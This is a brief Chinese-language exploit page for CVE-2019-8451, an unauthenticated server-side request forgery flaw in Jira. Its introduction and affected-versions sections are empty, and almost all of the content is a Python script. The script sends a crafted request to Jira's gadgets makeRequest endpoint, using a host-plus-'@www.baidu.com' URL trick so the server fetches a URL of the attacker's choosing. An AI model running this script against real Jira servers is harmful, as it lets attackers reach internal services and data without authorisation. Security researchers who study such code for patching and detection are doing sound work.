

# （CVE-2019-8451）Jira 未授权 SSRF 漏洞验证

> 原文：[http://book.iwonder.run/0day/Jira/1.html](http://book.iwonder.run/0day/Jira/1.html)

## 一、漏洞简介

（CVE-2019-8451）Jira 未授权 SSRF 漏洞验证

## 二、影响范围

## 三、复现过程



[https://github.com/ianxtianxt/CVE-2019-8451](https://github.com/ianxtianxt/CVE-2019-8451)

```
#coding:utf-8
import requests

host = 'http://xx.xx.xx.xx:8080'
header = {
                        'X-Atlassian-Token': 'no-check',
                        'Connection': 'close'
                }

url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
html = requests.get(url = url,headers = header)
print html.text 
```

